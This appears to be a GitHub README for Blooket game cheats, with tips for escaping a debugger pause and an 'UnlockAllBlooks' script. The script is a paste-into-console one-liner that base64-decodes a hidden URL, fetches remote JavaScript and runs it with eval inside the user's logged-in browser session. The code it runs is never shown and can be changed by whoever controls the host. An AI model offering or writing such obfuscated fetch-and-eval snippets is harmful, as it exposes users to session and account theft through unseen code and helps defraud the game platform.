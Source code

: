 # Paused in debugger
if you run one of the codes and get this: ![image](https://user-images.githubusercontent.com/73669084/133943133-af7cc9b8-75ab-496c-a17e-5851b6d7ff63.png) don't worry all you have to do is go to the sources tab: ![image](https://user-images.githubusercontent.com/73669084/133943102-701b0737-b0ca-4ccd-b533-e782c7767447.png) and click this: ![image](https://user-images.githubusercontent.com/73669084/133943169-2897f143-258f-49d8-81e3-181ffe857c8e.png) top right, lastly click this: ![image](https://user-images.githubusercontent.com/73669084/133943122-bc762f73-8522-435a-abb8-905233c95ebe.png) to get out of debugger


# UnlockAllBlooks.js
Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob("aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vZG0yaG9hNDVxL3Jhdy91cGxvYWQvdjE2Mzg1NjczNzkvdW5sb2NrQWxsUGVybV9iZW5peTMuanM=")).then((res) => res.text().then((t) => eval(t)))
```
